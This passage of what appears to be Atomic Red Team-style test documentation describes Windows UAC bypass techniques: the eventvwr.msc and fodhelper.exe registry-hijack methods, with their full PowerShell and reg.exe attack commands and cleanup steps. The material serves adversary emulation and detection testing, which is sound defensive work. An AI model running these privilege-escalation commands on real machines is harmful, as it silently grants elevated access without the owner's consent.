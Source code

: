 | Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\software\classes\mscfile\shell\open\command" -Force
Set-ItemProperty "HKCU:\software\classes\mscfile\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\eventvwr.msc"
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\software\classes\mscfile" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Bypass UAC using Fodhelper

Bypasses User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute"
fodhelper.exe
```

#### Cleanup Commands:

```cmd
reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell

PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires
Windows 10.
